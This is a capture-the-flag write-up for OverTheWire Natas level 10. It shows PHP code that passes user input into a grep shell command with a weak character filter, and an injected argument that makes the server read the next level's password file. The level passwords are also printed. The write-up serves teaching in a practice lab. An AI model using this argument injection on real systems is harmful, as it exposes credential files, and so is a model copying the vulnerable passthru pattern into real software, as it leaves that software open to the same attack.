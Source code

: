 # Level 10

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas10.natas.labs.overthewire.org](http://natas10.natas.labs.overthewire.org)
- username: `natas10`
- password: `D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`

## Solution

![start](./start.jpg)

Let's review the sourcecode:

```php
...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
...
```

We can see, that in compare with the previous challenge now we have list of illegal characters `/[;|&]/`. So we can just enter `a /etc/natas_webpass/natas11` and it will modify the command on the server to `grep -i a /etc/natas_webpass/natas11 dictionary.txt`, so it will look for occurences of letter `a` in `/etc/natas_webpass/natas11`:

![pass](./pass.jpg)

## Password

`natas11`:`1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg`

*Created by [bu19akov](https://github.com/bu19akov)*
